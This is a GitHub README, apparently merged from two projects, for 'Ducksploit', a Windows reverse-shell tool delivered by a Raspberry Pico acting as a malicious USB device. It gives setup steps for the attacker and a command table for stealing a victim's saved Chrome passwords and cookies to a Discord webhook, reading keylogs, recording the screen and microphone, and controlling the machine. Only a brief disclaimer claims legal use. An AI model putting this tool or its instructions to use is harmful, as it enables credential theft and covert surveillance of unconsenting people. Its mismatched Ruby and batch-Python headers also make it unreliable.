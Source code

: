 # 🦑 shell-reverse-windows
 
![GitHub repo size](https://img.shields.io/github/repo-size/DioBruh/backdoor-windows?style=for-the-badge)
![GitHub language count](https://img.shields.io/github/languages/count/DioBruh/backdoor-windows?style=for-the-badge)
![GitHub forks](https://img.shields.io/github/forks/DioBruh/backdoor-windows?style=for-the-badge)
![Bitbucket open issues](https://img.shields.io/bitbucket/issues/DioBruh/backdoor-windows?style=for-the-badge)
![Bitbucket open pull requests](https://img.shields.io/bitbucket/pr-raw/DioBruh/backdoor-windows?style=for-the-badge)
 

![banner](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/banner.png?raw=true "banner")


<p>
  <img src="https://camo.githubusercontent.com/7f611eb7fa49f2b2cf006f5164f75e1b4fafd3d967bfe0b00b717d3a10ebd44d/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f527562792d4343333432443f7374796c653d666f722d7468652d6261646765266c6f676f3d72756279266c6f676f436f6c6f723d7768697465"
</p>

> A simple ruby reverse-shell windows 10, 11



# Ducksploit
![](https://img.shields.io/badge/Version-1.0.7-red) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/badge/Windows-blue)

## Awsome crossbreed of batch and python on Windows ♥
 <center>
<img src="https://camo.githubusercontent.com/7f611eb7fa49f2b2cf006f5164f75e1b4fafd3d967bfe0b00b717d3a10ebd44d/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f527562792d4343333432443f7374796c653d666f722d7468652d6261646765266c6f676f3d72756279266c6f676f436f6c6f723d7768697465" alt="ruby" width="300"/><img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/windows-10.png?raw=true" alt="win10" widith="100" height="100"/>
</center>

## Install Ducksploit

#### Hacker
###### setup raspberry pico (hacker)
1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
2. Extract downloaded zip file
3. Plugg your raspberry pico on your PC with the BOOTSEL button
   [![picobootbutton](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")
4. Move CircuitPython.uf2 file in the E:\ or F:\ <-- usb port (port of your pico)
   now your raspberry pico gonna leave usb port and reconnec with CIRCUITPY name
5. Erase all the content of your raspberry pico and copy all the extracted repo folder into him
6. Write myip.txt and write your own IP
7. Now your raspberry pico is full configured , unplugg your pico and done!

###### setup ducksploit commands (hacker)

1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
2. Extract downloaded zip file
3. If python is not installed, launch 'installpython.bat' or download at https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe
4. launch setup.bat       ###MUST BE RUN AS ADMINISTRATOR###
5. wait till installation is finished
7. Ducksploit is now installed on your PC :smile:
8. Type 'ds' in the cmd
9. Wait victim's connection using 'wait' command
10. Have fun with ducksploit hacking commands (type help to get commands list)

⚠️ WHEN EXPLOIT/SCRIPT IS RUNNING, TYPE ON 'ESC' KEY ⚠️

#### Victim
Just plugg the raspberry pico in your pc (or hacker can do also)
That will start automaticaly the client of the reverse shell

:warning: Ducksploit is made for legal use or educational use (then, we are not responsible for any crimes committed by our users):warning:

## Uninstall Ducksploit (victim)

1. type 'ds uninstall' in cmd
2. Done  :smile:

## SUPPORT
support us with     
<noscript><a href="https://www.paypal.com/paypalme/Canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>        or        <noscript><a href="https://www.patreon.com/ducksploit"><img alt="Donate 👍 using Patreon" src="https://forum.cwowd.com/uploads/default/original/3X/6/d/6d1cdda143cc46667d87659d64d15a869a9b6139.png" width="100" height="100"></a></noscript>

## **Commands**

#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |


#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| info | info | view all your account's infos |

#### Exploits
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| stealpwds | stealpwds (discord webhook url) | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook |
| open  | open (applicationname.exe) | open mensioned application |
| recordscreen  | recordscreen (time in second) | record victim's screen durring amount of time |
| recordmicro  | recordmicro (time in second) | record victim's micro durring amount of time |

## ⚠️ To get your victim's keylogs, go on 'http://{ip of your victim}:8013/keylogger/' ⚠️

#### Mouse
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| mouseclick | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove | mousemove (x) (y) | move the victim's cursor by x and y pixels |
| locatemouse | locatemouse | get the victim's cursor current locations |

#### Alert Window
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| msg | msg (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines (if -file set line1 to createfile command content)

#### Troll
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc 
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |
